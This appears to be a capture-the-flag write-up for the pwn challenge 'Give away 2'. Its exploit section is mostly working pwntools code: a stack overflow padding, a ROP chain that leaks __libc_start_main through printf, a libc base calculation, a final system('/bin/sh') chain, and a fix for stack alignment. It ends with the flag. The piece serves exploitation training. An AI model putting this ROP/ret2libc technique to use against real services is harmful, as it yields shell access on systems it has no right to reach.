





# Give away 2 writeup


## Content

This writeup is about PWN challenge

	* libc-2.27.so: shared library (given)
	* give_away_2: challenge binary (given)
	* ropy_exploit.py: Full exploit




## Binary analysis

Quick check of the binary on ida gives

* main



* vuln 




checksec reveal that PIE is enabled which explain the purpose of leaking the address of main. So we can compute the base of the progrma later



## Exploit

The attack will be ret2libc but first we need to leak libc base using rop attack.

1. step 1: leaking `__libc_start_main` address

```python
base_prog = MAIN - 0x864 # compute the program base address based on the main address printed out from the program

PRINTF = elf.plt['printf'] + base_prog 
LIBC_START_MAIN = elf.symbols['__libc_start_main']  + base_prog

POP_RDI = 0x0000000000000903 + base_prog
POP_RSI = 0x0000000000000901 + base_prog
RET = 0x0000000000000676 + base_prog

#Overflow buffer until return address
padding = "A"*40
# Create rop chain
rop2 = padding +p64(POP_RDI) + p64(LIBC_START_MAIN) + p64(RET) + p64(PRINTF) + p64(RET)+p64(MAIN)
#Send our rop-chain payload
p.sendline(rop2)
```

2. step 2: Parse the leaked address

```python
recieved = p.recvline().strip().split('Give')
leak = u64(recieved[0].ljust(8, "\x00"))
log.info("Leaked libc address,  __libc_start_main: %s" % hex(leak))

libc.address = leak - libc.sym["__libc_start_main"]
log.info("Address of libc %s " % hex(libc.address))
``` 

3. step 3: Create and send the final rop

```python

BINSH = next(libc.search("/bin/sh")) 
SYSTEM = libc.sym["system"]

log.info("bin/sh %s " % hex(BINSH))
log.info("system %s " % hex(SYSTEM))

final_rop = padding + p64(RET) + p64(POP_RDI) + p64(BINSH) + p64(RET) + p64(SYSTEM)

p.sendline(final_rop)
```


## Notes

* Find the full exploit in `ropy_exploit.py`
* Flag: shkCTF{It's_time_to_get_down_to_business}

* The length of the payload had to be multiple of 16 because the stack should be 16-byes aligned that's why we add RET in the rop chain. Otherwise you'll stuck in the movaps segfault problem (it was my case :') )


